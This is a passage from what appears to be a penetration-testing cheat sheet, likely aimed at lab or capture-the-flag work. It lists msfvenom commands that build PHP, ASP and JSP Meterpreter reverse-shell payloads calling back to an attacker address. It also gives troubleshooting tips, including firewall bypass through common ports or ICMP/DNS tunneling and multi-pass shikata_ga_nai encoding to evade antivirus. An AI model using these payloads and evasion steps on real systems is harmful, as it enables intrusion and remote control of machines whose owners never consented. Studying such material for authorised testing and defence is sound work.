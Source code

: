 #### Web Payloads

```bash
# PHP Meterpreter Reverse TCP
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.137 LPORT=4444 -f raw > shell.php

# ASP Meterpreter Reverse TCP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.137 LPORT=4444 -f asp > shell.asp

# JSP Java Meterpreter Reverse TCP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.137 LPORT=4444 -f raw > shell.jsp
```

### Common Issues and Solutions

#### Shell Stability Issues

Problem: Shell dies unexpectedly Solution: Try different shell types or full TTY upgrade

#### Firewall Restrictions

Problem: Can't establish direct connections Solution: Use common ports (80, 443, 8080) or try ICMP/DNS tunneling

#### Non-Interactive Commands

Problem: Commands like su, ssh require TTY Solution: Upgrade shell to full TTY

#### Command Output Encoding

Problem: Binary data corrupts terminal Solution: Base64 encode output before transferring

```bash
cat /bin/ls | base64
echo "base64_string" | base64 -d > ls
chmod +x ls
```

#### Anti-Virus Detection

Problem: Payloads detected by AV Solution: Use encoders or obfuscation techniques

```bash
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 10 LHOST=10.10.14.137 LPORT=4444 -f exe > encoded.exe
```
